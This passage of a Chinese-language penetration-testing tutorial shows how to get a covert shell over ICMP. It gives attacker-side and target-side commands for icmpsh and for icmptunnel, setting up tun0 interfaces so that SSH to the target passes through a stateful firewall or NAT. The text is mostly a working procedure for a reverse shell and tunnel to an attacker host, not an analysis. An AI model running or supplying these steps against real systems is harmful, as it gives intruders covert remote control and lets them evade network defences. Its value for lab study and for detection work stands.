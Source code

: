 在攻击机上运行：

    
    
    python2 icmpsh_m.py 172.16.214.6 172.16.214.2

在目标机上运行

    
    
    ./icmpsh.exe -t 172.16.214.6

此时在攻击机上可以看到通过 icmp 协议建立的 shell

![](https://gitee.com/fuli009/images/raw/master/public/20211027204329.png)

### icmptunnel

icmptunnel 的优势在于可以穿过状态防火墙或 NAT，同样在 github 上进行下载，值得注意的是该工具只有 Linux 版。

    
    
    git clone https://github.com/jamesbarlow/icmptunnel.git  
    cd icmptunnel  
    make

目前有这样的一个场景，攻击者为 Linux，但由于目标存在状态防火墙或者使用了 NAT 导致无法获得 shell，此时可以通过 icmptunnel
绕过限制。

    
    
    攻击机 IP：172.16.214.6  
    目标机 IP：172.16.214.5

在攻击机上运行：

    
    
    echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all        # 禁用 ICMP echo 回复，防止内核自己对ping包进行响应  
    ./icmptunnel -s    # 开启服务端模式

在攻击机上新开启一个终端运行：

    
    
    /sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0    # 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.1)

在目标机上运行：

    
    
    echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all  
    ./icmptunnel 172.16.214.6

在目标机上新开启一个终端运行：

    
    
    /sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0    # 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.2)

至此，已经通过 ICMP 建立了一个点对点隧道。

在攻击机上，尝试通过 ssh 进行连接，可以看到通过刚才建立的隧道成功连接到目标机。

    
    
    ssh root@10.0.0.2
